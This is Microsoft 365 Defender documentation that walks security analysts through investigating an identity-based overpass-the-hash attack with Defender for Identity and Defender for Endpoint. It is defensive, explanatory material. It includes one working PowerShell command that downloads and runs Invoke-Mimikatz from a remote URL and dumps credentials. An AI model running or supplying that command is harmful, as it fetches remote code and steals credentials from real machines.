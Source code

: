 = 
dansimp
:keywords: incidents, alerts, investigate, correlation, attack,
machines, devices, users, identities, identity, mailbox, email, 365,
microsoft, m365, incident response, cyber-attack

== Example of an identity-based attack

{empty}[!INCLUDE link:../includes/microsoft-defender.md[Microsoft 365
Defender rebranding]]

*Applies to:* - Microsoft 365 Defender

Microsoft Defender for Identity can help detect malicious attempts to
compromise identities in your organization. Because Defender for
Identity integrates with Microsoft 365 Defender, security analysts can
have visibility on threats coming in from Defender for Identity, such as
suspected Netlogon privilege elevation attempts.

=== Analyzing the attack in Microsoft Defender for Identity

Microsoft 365 Defender allows analysts to filter alerts by detection
source on the *Alerts* tab of the incidents page. In the following
example, the detection source is filtered to *Defender for Identity*.

:::image type=``content''
source=``../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png''
alt-text=``Filtering the detection source in Microsoft Defender for
Identity''
lightbox=``../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png'':::

Selecting the *Suspected overpass-the-hash attack* alert goes to a page
in Microsoft Defender for Cloud Apps that displays more detailed
information. You can always find out more about an alert or attack by
selecting *Learn more about this alert type* to read a
link:/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002[description
of the attack] and remediation suggestions.

:::image type=``content''
source=``../../media/first-incident-path-identity/first-incident-identity-alert-example.png''
alt-text=``A suspected overpass-the-hash attack alert''
lightbox=``../../media/first-incident-path-identity/first-incident-identity-alert-example.png'':::

=== Investigating the same attack in Microsoft Defender for Endpoint

Alternatively, an analyst can use Defender for Endpoint to learn more
about the activity on an endpoint. Select the incident from the incident
queue, then select the *Alerts* tab. From here, they can identify the
detection source as well. A detection source labeled as EDR stands for
Endpoint Detection and Response, which is Defender for Endpoint. From
here, the analyst selects an alert detected by EDR.

:::image type=``content''
source=``../../media/first-incident-path-identity/first-incident-identity-mde-edr.png''
alt-text=``An Endpoint Detection and Response in the Microsoft Defender
for Endpoint portal''
lightbox=``../../media/first-incident-path-identity/first-incident-identity-mde-edr.png'':::

The alert page displays various pertinent information such as the
impacted device name, username, status of auto-investigation, and the
alert details. The alert story depicts a visual representation of the
process tree. The process tree is a hierarchical representation of
parent and child processes related to the alert.

:::image type=``content''
source=``../../media/first-incident-path-identity/first-incident-identity-mde-tree.png''
alt-text=``An alert process tree in the Microsoft Defender for
Endpoint''
lightbox=``../../media/first-incident-path-identity/first-incident-identity-mde-tree.png'':::

Each process can be expanded to view more details. Details that an
analyst can see are the actual commands that were entered as part of a
malicious script, outbound connection IP addresses, and other useful
information.

:::image type=``content''
source=``../../media/first-incident-path-identity/first-incident-identity-process-details.png''
alt-text=``The process details in the Microsoft Defender for Endpoint
portal''
lightbox=``../../media/first-incident-path-identity/first-incident-identity-process-details.png'':::

By selecting *See in timeline*, an analyst can drill down even further
to determine the exact time of the compromise.

Microsoft Defender for Endpoint can detect many malicious files and
scripts. However, due to many legitimate uses for outbound connections,
PowerShell, and command-line activity, some activity would be considered
benign until it creates a malicious file or activity. Therefore, using
the timeline helps analysts to put the alert into context with the
surrounding activity to determine the original source or time of the
attack that otherwise is obscured by common file system and user
activity.

To use the timeline, an analyst would start at the time of the alert
detection (in red) and scroll down backwards in time to determine when
the original activity that led to the malicious activity actually
started.

:::image type=``content''
source=``../../media/first-incident-path-identity/first-incident-identity-start-time.png''
alt-text=``Analyst’s start time for the alert detection''
lightbox=``../../media/first-incident-path-identity/first-incident-identity-start-time.png'':::

It is important to understand and distinguish common activity such as
Windows Update connections, Windows Trusted Software activation traffic,
other common connections to Microsoft sites, third-party Internet
activity, Microsoft Endpoint Configuration Manager activity, and other
benign activity from suspicious activity. One way to distinguish is by
using timeline filters. There are many filters that can highlight
specific activity while filtering out anything that the analyst does not
want to view.

In the image below, the analyst filtered to view only network and
process events. This filter criteria allows the analyst to see the
network connections and processes surrounding the event where Notepad
established a connection with an IP address, which we also saw in the
process tree.

:::image type=``content''
source=``../../media/first-incident-path-identity/first-incident-identity-notepad.png''
alt-text=``How Notepad was used to make a malicious outbound
connection''
lightbox=``../../media/first-incident-path-identity/first-incident-identity-notepad.png'':::

In this particular event, Notepad was used to make a malicious outbound
connection. However, often attackers will use iexplorer.exe to establish
connections to download a malicious payload because ordinarily
iexplorer.exe processes are considered regular web browser activity.

Another item to look for in the timeline would be PowerShell uses for
outbound connections. The analyst would look for successful PowerShell
connections with commands such as `IEX (New-Object Net.Webclient)`
followed by an outbound connection to a website hosting a malicious
file.

In the following example, PowerShell was used to download and execute
Mimikatz from a website:

[source,powershell]
----
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
----

An analyst can quickly search for keywords by typing in the keyword in
the search bar to display only events created with PowerShell.

=== Next step

See the link:first-incident-path-phishing.md[phishing] investigation
path.

=== See also

* link:incidents-overview.md[Incidents overview]
* link:manage-incidents.md[Manage incidents]
* link:investigate-incidents.md[Investigate incidents]
